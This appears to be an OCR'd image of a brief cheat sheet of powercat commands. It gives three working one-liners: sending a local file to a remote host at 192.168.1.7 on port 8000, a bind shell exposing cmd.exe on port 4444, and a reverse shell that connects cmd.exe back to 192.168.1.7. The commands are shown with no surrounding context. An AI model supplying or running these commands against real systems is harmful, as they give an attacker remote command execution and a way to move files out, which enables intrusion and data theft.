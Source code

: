
Powercat File Transfers:

powercat -c 192.168.1.7 -p 8000 -i C:\Users\limbo\Desktop\file.txt

# Powercat Bind Shells:

powercat -l -p 4444 -e cmd.exe

# Powercat Reverse Shells:

powercat -c 192.168.1.7 -p 4444 -e cmd.exe